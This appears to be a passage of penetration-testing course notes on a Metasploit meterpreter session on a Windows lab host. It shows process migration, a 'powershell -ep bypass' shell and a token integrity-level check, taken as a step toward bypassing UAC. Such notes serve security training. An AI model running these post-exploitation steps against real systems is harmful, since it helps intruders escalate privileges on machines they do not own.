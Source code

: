 ```
...

meterpreter > migrate 8044
[*] Migrating from 9020 to 8044...
[*] Migration completed successfully.

meterpreter > getuid
Server username: ITWK01\offsec
```
+ Above shows that we are now running in the context of _offsec_ again
+ While this is an administrative account, UAC prevents us from performing administrative operations as we learned in previous Modules
+ Before we attempt to bypass UAC, let's confirm that the current process has the integrity level _Medium_ 

To display the integrity level of a process, we can use tools such as _Process Explorer_ or third-party PowerShell modules such as _NtObjectManager_ 
+ Let's assume the latter is already installed on the system

Once we import the module with _Import-Module_, we can use _Get-NtTokenIntegrityLevel_ to display the integrity level of the current process by retrieving and reviewing the assigned access token
+ See usage with a meterpreter shell:
```
shell
powershell -ep bypass
Import-Module NtObjectManager
Get-NtTokenIntegrityLevel
```
+ Example:
```
meterpreter > shell
Process 6436 created.
Channel 1 created.
Microsoft Windows [Version 10.0.22000.795]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> powershell -ep bypass
powershell -ep bypass
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Windows\system32> Import-Module NtObjectManager
Import-Module NtObjectManager

PS C:\Windows\system32> Get-NtTokenIntegrityLevel
Get-NtTokenIntegrityLevel
Medium
```
+ Above shows that we are currently performing operations in the context of integrity level _Medium_
+ Next, let's background the currently active channel and session to search for and leverage UAC post-exploitation modules
```
PS C:\Windows\system32> ^Z
Background channel 1? [y/N]  y

meterpreter > bg
[*] Backgrounding session 9...
```

